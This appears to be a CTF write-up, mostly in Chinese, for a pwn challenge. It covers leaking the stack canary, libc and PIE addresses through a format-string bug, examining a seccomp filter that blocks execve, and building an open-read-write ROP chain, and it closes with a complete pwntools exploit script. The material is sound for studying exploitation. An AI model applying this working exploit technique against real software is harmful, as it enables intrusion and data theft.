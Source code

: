 # 1.0 Challenge
1. leak canary libc pie
2. seccomp disable execve 
3. HOW TO build orw payload？

# 2.0 Analysis

source code 
```
  while ( 1 )
  {
    write(1, "message: ", 9u);
    gets(format);
    printf(format);
    if ( format[0] == 'x' )
      break;
    putchar(10);
  }
  return 0;
}
```
经典的 canary leak 
可是这题 特别的是 orw
因为他开了
```
──(kali㉿kali)-[~/Desktop/CTF/wangding/orw]
└─$ seccomp-tools dump ./task_patched
 line  CODE  JT   JF      K
=================================
 0000: 0x20 0x00 0x00 0x00000004  A = arch
 0001: 0x15 0x00 0x06 0xc000003e  if (A != ARCH_X86_64) goto 0008
 0002: 0x20 0x00 0x00 0x00000000  A = sys_number
 0003: 0x35 0x00 0x01 0x40000000  if (A < 0x40000000) goto 0005
 0004: 0x15 0x00 0x03 0xffffffff  if (A != 0xffffffff) goto 0008
 0005: 0x15 0x02 0x00 0x0000003b  if (A == execve) goto 0008
 0006: 0x15 0x01 0x00 0x00000142  if (A == execveat) goto 0008
 0007: 0x06 0x00 0x00 0x7fff0000  return ALLOW
 0008: 0x06 0x00 0x00 0x00000000  return KILL

```
caooooo

有一个很好笑的问题 我send 完payload的时候 一直以为做错了
原来是 要send filename
不知道zmk flag.txt 不可以 只有 flag 可以 ???? 

# 3.0 Solution

## 3.1 how to leak libc 
经典 用 [[PWN -- super_jumpio_kart -- canary ROP]]
```
[15] Possible Canary: 0xc29d7f8fc494df00
[16] Possible LIBC  : 0x7fffffffdcb0
[17] Possible PIE   : 0x555555400c63
```
算offset 罢了

## 3.2 seccomp disable execve 
其实怎样知道leh
有方法的 看ida 明显 sandbox function 那边
啊不然 就 seccomp-tools dump ./task_patched 跑一下

## 3.3 HOW TO build orw payload？


这个算是我第一次动到 ORW
它阻止了两个 syscall：
- `execve` (59)
- `execveat` (322)

✅ 所以**不能用 one_gadget 或 system('/bin/sh') 来打 shell**  
✅ 但可以用 `open`, `read`, `write` 来 ORW 读取 flag 文件。

现在的target !!!!
手动调用 `open("flag", 0)` → `read(fd, buf, 128)` → `write(1, buf, 128)` 来读取 flag

```python
buff = exe.bss(0x200) #<- 随便放一个空的地方
rop.call('gets', [buff])                # 让用户输入 flag 文件名（比如 "flag"）
rop.call('open', [buff, 0])             # 打开该文件
rop.call('read', [3, buff, 128])        # 读取前 128 字节到 buff（fd 通常是 3）
rop.call('write', [1, buff, 128])       # 把内容写回标准输出
```

怎样触发 这个 orw 不能随便填 a b c d
if ( format[0] == 'x' ) 他有讲 要 x 
然后 offset 看下面

canary offset 算法
```bash
pwndbg> stack 30
00:0000│ rax rsp 0x7fffffffdb70 ◂— 0x61616161 /* 'aaaa' */
01:0008│-048     0x7fffffffdb78 ◂— 0
... ↓            5 skipped
07:0038│-018     0x7fffffffdba8 ◂— 0x555500000000
08:0040│-010     0x7fffffffdbb0 —▸ 0x7fffffffdcb0 ◂— 1
09:0048│-008     0x7fffffffdbb8 ◂— 0x8d818f0b7b878800
0a:0050│ rbp     0x7fffffffdbc0 —▸ 0x7fffffffdbd0 —▸ 0x555555400c70 (__libc_csu_init) ◂— push r15
0b:0058│+008     0x7fffffffdbc8 —▸ 0x555555400c63 (main+24) ◂— mov eax, 0
0c:0060│+010     0x7fffffffdbd0 —▸ 0x555555400c70 (__libc_csu_init) ◂— push r15
0d:0068│+018     0x7fffffffdbd8 —▸ 0x7ffff7821c87 (__libc_start_main+231) ◂— mov edi, eax
0e:0070│+020     0x7fffffffdbe0 ◂— 0x2000000000
0f:0078│+028     0x7fffffffdbe8 —▸ 0x7fffffffdcb8 —▸ 0x7fffffffe06e ◂— '/home/kali/Desktop/CTF/wangding/echo/task_patched'

```
0x7fffffffdbb8 - 0x7fffffffdb70 = 0x48

8 的话是因为他直接 leave ret 了 不确定的话 看 有sample 不是8 的 [[PWN -- super_jumpio_kart -- canary ROP]]

# 4.0 FLAG 
after ctf
# 5.0 FINAL SCRIPT 
```python
# -*- coding: utf-8 -*-
from pwn import*
# context.log_level='debug'
context.arch='amd64'
context.os = "linux"

pc = "./task_patched"

libc  = ELF('./libc.so.6', checksec=False)
ld = ELF("./ld-2.27.so")
exe = context.binary = ELF(pc)



scripts = """
"""
 
if __name__ == '__main__':
    local = sys.argv[1]
    if local == 'l':
        r= process(pc)
        elf = ELF(pc)
    else:
        r=remote("34.45.81.67",16006)
        elf = ELF(pc)

# change -l0 to -l1 for more gadgets
def one_gadget(filename, base_addr=0):
  return [(int(i)+base_addr) for i in subprocess.check_output(['one_gadget', '--raw', '-l1', filename]).decode().split(' ')]

# shortcuts
def logbase(): log.info("libc base = %#x" % libc.address)
def piebase(): log.info("pie  base = %#x" % exe.address)
def logleak(name, val):  log.info(name+" = %#x" % val)

s = lambda *a, **k: r.send(*a, **k)
sa = lambda s,n : r.sendafter(s,n)
sla = lambda s,n : r.sendlineafter(s,n)
sl = lambda s : r.sendline(s)
sd = lambda s : r.send(s)
rc = lambda n : r.recv(n)
rl = lambda: r.recvline()
ru = lambda s : r.recvuntil(s, drop=True)
ti = lambda: r.interactive()
lg = lambda s: log.info('\033[1;31;40m %s --> 0x%x \033[0m' % (s, eval(s)))
bhex = lambda b: int(b.decode(), 16)
ru7f = lambda: r.recvuntil(b'\x7f')
dbg = lambda: gdb.attach(r)
dbgstart = lambda script=scripts: gdb.attach(r, gdbscript=script)

# leak libc
sla("message: ","%15$p.%16$p.%17$p")
# base 0x7ffff7800000
# leak 0x7ffff7beba83
# offset 0x83FBA40
# offset = 0x7ffff7beba83 - 0x7ffff7800000
# print("offset",hex(offset))
leak = rl().decode().strip()
log.success(f"leak = {leak}")
parts = leak.split(".")

leak_stack = int(parts[1], 16)
canary = int(parts[0], 16)
pie = int(parts[2], 16)

log.success(f"leak_stack = {hex(leak_stack)}")
log.success(f"canary     = {hex(canary)}")
log.success(f"pie     = {hex(pie)}")

# 0x87fdcb0
# offset = leak_stack - 0x7ffff7800000
# print(f"offset to base: {hex(offset)}")

libc.address=leak_stack-0x87fdcb0
logbase()
exe.address=pie-0xc63
piebase()

# base 0x555555400000


# dbg()

# our rop
rop = ROP(libc)
buff = exe.bss(0x200)
rop.call('gets', [buff])
rop.call('open', [buff,0])
rop.call('read', [3, buff,128])
rop.call('write', [1, buff,128])

offset = 0x48
payload = b'x' * offset
payload += p64(canary)
payload += b'b' * 8
payload += rop.chain()

sla("message: ",payload)
# sl('/flag.txt\x00')

ti()

```


# 6.0 REFERENCE
https://github.com/nobodyisnobody/write-ups/blob/1027ab1f093d316d1b8170849d82abd0caae32f8/TyphoonCon.CTF.2023/pwn/Echo.Time/working.exploit.py